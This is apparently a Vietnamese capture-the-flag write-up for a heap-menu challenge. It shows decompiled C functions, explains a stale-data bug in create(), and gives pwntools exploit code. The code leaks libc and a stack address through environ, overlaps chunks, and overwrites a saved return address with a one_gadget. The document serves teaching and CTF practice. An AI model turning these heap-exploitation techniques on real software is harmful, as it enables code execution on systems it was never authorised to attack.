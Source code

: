 # IDA
## create()
```c
int create()
{
  int index; // [rsp+Ch] [rbp-4h]

  index = get_index();
  if ( index == -1 )
    return puts("That bai!");
  table[index] = malloc(0x18uLL);
  printf("Mo ta:\n> ");
  fgets((char *)(table[index] + 8LL), 8, stdin);
  return puts("Xong!");
}
```
## destroy
```c
int destroy()
{
  int index; // [rsp+Ch] [rbp-4h]

  index = get_index();
  if ( index == -1 )
    return puts("That bai!");
  if ( !table[index] )
    return puts("Khong ton tai kho!");
  if ( *(_QWORD *)table[index] )
    free(*(void **)table[index]);
  memset((void *)table[index], 0, 0x18uLL);
  free((void *)table[index]);
  table[index] = 0LL;
  return puts("Xong!");
}
```
## append
```c
unsigned __int64 append()
{
  void **v0; // rbx
  int index; // [rsp+0h] [rbp-30h]
  int v3; // [rsp+4h] [rbp-2Ch]
  void *ptr; // [rsp+8h] [rbp-28h]
  char s[8]; // [rsp+10h] [rbp-20h] BYREF
  unsigned __int64 v6; // [rsp+18h] [rbp-18h]

  v6 = __readfsqword(0x28u);
  index = get_index();
  if ( index == -1 )
  {
    puts("That bai!");
  }
  else if ( table[index] )
  {
    puts("Kich thuoc?");
    printf("> ");
    fgets(s, 8, stdin);
    v3 = atoi(s);
    if ( v3 >= 0 )
    {
      ptr = malloc(v3);
      fread(ptr, 1uLL, v3, stdin);
      if ( (unsigned __int64)v3 > *(_QWORD *)(table[index] + 16LL) )
      {
        v0 = (void **)table[index];
        *v0 = realloc(*v0, v3);
        *(_QWORD *)(table[index] + 16LL) = v3;
      }
      memcpy(*(void **)table[index], ptr, v3);
      free(ptr);
      puts("Xong!");
    }
    else
    {
      puts("That bai!");
    }
  }
  else
  {
    puts("Khong ton tai kho!");
  }
  return __readfsqword(0x28u) ^ v6;
}
```
## show
```c
int show()
{
  int index; // [rsp+4h] [rbp-Ch]

  index = get_index();
  if ( index == -1 )
    return puts("That bai!");
  if ( !table[index] )
    return puts("Khong ton tai kho!");
  if ( !*(_QWORD *)table[index] )
    return puts("Kho rong!");
  fwrite(*(const void **)table[index], 1uLL, *(_QWORD *)(table[index] + 16LL), stdout);
  return putchar(10);
}
```
## Phân tích
![Alt text](image-1.png)
- Khi một chunk được tạo, thì chỉ có description, còn buf_address và buf_size thì được thêm sau khi append.
- Và khi append sẽ kiểm tra size mới có lớn hơn buf_size đã có không, nếu lớn hơn nó sẽ malloc một chunk lớn hơn khác, nếu bé hơn thì nó sẽ sửa lại data của chunk cũ.
- Đến đây thì mình có ý tưởng làm sao để ghi buf_address thành một địa chỉ khác, got chẳng hạn thành one_gadget
- Và khi create(), chương trình không xoá data của chunk cũ nên có thể có các data cũ
- Thông qua bug của create() ta có hướng khai thác như sau
  - setup buf_address thành địa chỉ của 1 trong các got, free_hook, malloc_hook, stack chứa ret
  - ow bằng one_gadget
- ow got khá khó vì thường không leak được elf base, free_hook, malloc_hook và stack chứa ret đều có thể (leak stack bằng biến environ)
- Mình khai thác theo hướng ow chứa ret
## Khai thác
### Chuẩn bị
```python
def taokho(pos, des):
    sla(b"> ", b"1")
    sla(b"> ", str(pos).encode())
    sla(b"> ", des)
def xoakho(pos):
    sla(b"> ", b"2")
    sla(b"> ", str(pos).encode())
def morong(pos, size, des):
    sla(b"> ", b"3")
    sla(b"> ", str(pos).encode())
    sla(b"> ", str(size).encode())
    s(des)
def kiemtra(pos):
    sla(b"> ", b"4")
    sla(b"> ", str(pos).encode())
```
### Leak libc, stack bằng environ
- Để leak được libc thì mình thường thông qua unsorted bin
```python
taokho(0, b"0" * 6)
morong(0, 0x500, b"a" * 0x500)
taokho(2, b"0" * 6)
kiemtra(2)
```
![Alt text](image.png)
![Alt text](image-2.png)
- Ở đây mình thấy size khá lớn, và nó có thể leak được stack.
- Do mình tính mãi không đúng được offset nên mình dùng cách tính từ từ =)))
- Trên server mình thấy nó -2 byte so với lúc chạy local
```python
leak_libc = u64(p.recv(8))
libc.address = leak_libc - 0x1ed000
leak = p.recv(0x1000)
leak = p.recv(0x1000)
leak = p.recv(0x400)
leak = p.recv(0x1e0)
leak = p.recv(18) # local
# leak = p.recv(16) remote
leak = p.recv(8)
```
```python
p.recvuntil(b"Kiem tra kho")
stack = u64(leak)
info("stack: " + hex(stack))
info("leak libc: " + hex(leak_libc))
info("libc base: " + hex(libc.address))
xoakho(0) # 
```
- Khi này heap của mình như sau
![Alt text](image-3.png)

### ow stack chứa ret
- Hiểu đơn giản thì giống với việc ow saved rip
```python
taokho(0, b'0' * 6)
morong(0, 8, b"a" * 8)
taokho(1, b'1'*6)
xoakho(0)
xoakho(1)
taokho(0, b'1' * 6)
taokho(1, b'1' * 6)
```
![Alt text](image-4.png)
- Ta có thể thấy buf của chunk 0 chính là buf_address của chunk 1. Vậy là ta có thể setup buf_address của chunk thành stack chứa ret và trỏ đến địa chỉ đó để thay đổi.
- Ở đây mình đã thử một số địa chỉ ret
```python
morong(1, 0x8, p64(0))
morong(0, 0x8, p64(stack-0x120))
morong(1, 0x8, p64(libc.address+0xe3b01))
``` 